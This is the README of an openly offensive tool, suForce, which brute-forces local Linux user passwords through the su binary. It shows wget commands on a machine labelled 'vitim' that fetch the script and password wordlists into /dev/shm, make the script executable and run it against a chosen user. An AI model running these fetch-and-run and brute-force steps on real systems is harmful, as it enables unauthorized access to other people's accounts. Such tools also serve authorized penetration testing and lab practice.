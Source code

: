 # suForce

**`suForce` performs `brute force` attacks on user `passwords` by abusing the `su` binary.**

![](/screenshot.png)

- <kbd>Download</kbd>

```cmd
user@vitim:~$ cd /dev/shm
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/suForce.sh"
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/techyou.txt"
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/top12000.txt"
user@vitim:~$ chmod +x suForce.sh
```

- <kbd>Use</kbd>

```cmd
user@vitim:~$ ./suForce.sh -u <USER> -w <WORDLIST>
```

---
